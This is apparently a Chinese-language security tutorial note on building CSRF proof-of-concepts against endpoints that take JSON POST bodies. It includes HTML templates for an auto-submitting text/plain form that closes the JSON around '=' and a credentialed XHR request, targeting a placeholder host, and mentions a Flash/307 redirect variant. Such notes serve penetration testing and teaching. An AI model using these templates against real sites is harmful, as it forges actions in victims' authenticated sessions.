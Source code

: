 ## JSON格式下的CSRF漏洞利用
### 介绍
GET型的CSRF一般比较简单，这里介绍POST型的CSRF漏洞的POC构造。</br>
但是在POST类型的接口或者URL中，会出现一种JSON格式的入参，构造POC有一些注意点，这里主要对此做一些记录。</br>

### 漏洞利用 
#### （一）常规POC
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/1.png height="300" width="650">
首先使用常规POC，可使用BurpSuite的“Engagement Tools-Generate CSRF PoC”功能生成，如下：</br>

```html
<html>
<body>
	<form name="zzz" action="https://aaa.com" method="POST" enctype="text/plain">
		<input type="hidden" name='json入参' value='json入参产生“=”，此处设法闭合'/>
	</form>
	
	<script type="text/javascript">
		document.zzz.submit();
	</script>
</body>
</html>
```
使用上述常规POC会发现，响应报415，“Unsupported Media Type”，意为不支持的媒体类型;</br>
这是由于HTML文件中“enctype="text/plain"”造成的。</br>
抓包可以看到JSON入参后面跟了一个“=”符号。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/2.png height="300" width="650">
这种情况下，这种情况下服务端的JSON解析器可能会拒绝这段JSON，因为它不符合JSON的数据格式。 这时候我们可以给value赋值从而对=后的数据进行补全，使其构造成一个完整的json格式，可以避免解析器报错。具体的构造由name和value两个入参来进行，将"="封进JSON的入参中去，效果如下：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/4.png height="300" width="650">

#### （二）通过XHR提交
上述（一）最后如果还是响应415状态码，那么可能就是服务端校验了Content-Type类型，该请求字段只能为application/json。如此，可通过XHR提交入参，如下所述。</br>
在通过HTML form提交生成的POST请求中，请求头的Content-Type由<form>元素上的enctype属性指定;现在enctype只有如下三种属性值：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/3.png height="300" width="650">
其中text/plain可以满足JSON入参类型，但是其在用户请求时，相应请求体字段自动转换为了application/x-www-form-urlencoded。如下：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/5.png height="300" width="650">
当跨域影响用户数据HTTP请求(如用XMLHttpRequest发送post)时，浏览器会发送预检请求(OPTIONS请求)给服务端征求支持的请求方法，然后根据服务端响应允许才发送真正的请求。 然而如果服务端对Content-Type进行校验，则不会响应这个OPTIONS请求，从而利用失败。</br>

所以在此场景下，这一思路是行不通的。但是更多的情况下服务端可能不会校验Content-Type，或者不会严格校验Content-Type是否为application/json，所以很多情况下这是可用的。</br>
新的POC如下：</br>
```html
<html>
<body>
	<script>
		function submitRequest(){
			var xhr = new XMLHttpRequest();
			xhr.open("POST","https://aaa.com",true);
			xhr.setRequestHeader("Accept","*/*");
			xhr.setRequestHeader("Accept-Language","zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
			xhr.setRequestHeader("Content-Type","application/json");
			xhr.withCredentials = true;
			xhr.send(stringify(json入参));
		}
	</script>

	<form action="#">
		<input type="button" value="Submit Request" onclick="submitRequest();"/>
	</form>
</body>
</html>
```

#### （三）借助flash，利用307跳转实现CSRF
1.制作一个Flash文件</br>
2.制作一个跨域XML文件</br>
3.制作一个具有307状态码的php文件</br>
已经有大牛造好轮子了，参考：https://github.com/sp1d3r/swf_json_csrf</br>
